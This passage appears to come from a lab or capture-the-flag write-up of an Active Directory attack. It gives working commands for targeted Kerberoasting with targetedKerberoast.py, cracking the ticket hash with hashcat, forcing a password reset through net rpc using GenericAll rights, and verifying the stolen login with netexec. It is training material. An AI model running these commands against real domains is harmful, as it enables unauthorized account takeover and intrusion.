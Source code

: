 
#### Performing A Targeted Kerberoasting Attack On Sebastien: {#performing-a-targeted-kerberoasting-attack-on-sebastien}

-   The first attack I will try is a Targeted Kerberoasting attack. "How does this attack work?" I hear you ask, good thing I am here:
    -   +Requirements+: For us to be able to perform this attack we need one of the following privileges over the user:
        -   `GenericAll`
        -   `GenericWrite`
        -   `WriteProperty`
        -   `Validated-SPN`
        -   `WriteProperties`

    -   If we have one of the above privileges we can then do the following:
        1.  Attach/generate an SPN for the user account.
        2.  Request TGS for the user account (and save it.)
        3.  As TGS is encrypted with NTLM password hash we can then crack and overtake user account.

-   I download `targetedkerberoast.py` &amp; perform the attack:
    -   `git clone https://github.com/ShutdownRepo/targetedKerberoast`

-   I add the SPN to "sebastien" and this is saved to the file `sebastien.kerb`
    -   `python3 targetedKerberoast.py -v -d $domain -u $user -p $pass --request-user sebastien -o sebastien.kerb`
    -   {{< figure src="/ox-hugo/2024-11-14-133253_.png" >}}

-   I then attempt to crack the hash, however **I cannot crack it** :(
    -   `hashcat -m 13100 sebastien.kerb /home/kali/Wordlists/rockyou.txt -O`
    -   {{< figure src="/ox-hugo/2024-11-14-133836_.png" >}}
    -   I could try other rules but this box is rated as easy so if it's not in `rockyou.txt` I doubt it will be intended to be cracked.


#### Modifying "Sebastien's" Password To Login As Him: {#modifying-sebastien-s-password-to-login-as-him}

-   As we cannot crack the hash so we will move onto changing passwords. As we have `"GenericAll"` privileges we can do what we want to his account.
    -   `newPass=bl00dst1ll3r!`
    -   `net rpc password "SEBASTIEN" $newPass -U $domain/$user%$pass -S $box`
    -   {{< figure src="/ox-hugo/2024-11-14-134624_.png" >}}
    -   +Note+:
        -   I do not like changing users passwords and see it as a last resort.
        -   There is no output from this so we need to verify it worked

-   Verify it works "Sebastien's" new creds work
    -   `netexec smb $box -u $user -p $newPass --shares`
    -   {{< figure src="/ox-hugo/2024-11-14-134651_.png" >}}


#### Modifying "Sebastien's" Group Memberships To Enable Us To Login: {#modifying-sebastien-s-group-memberships-to-enable-us-to-login}

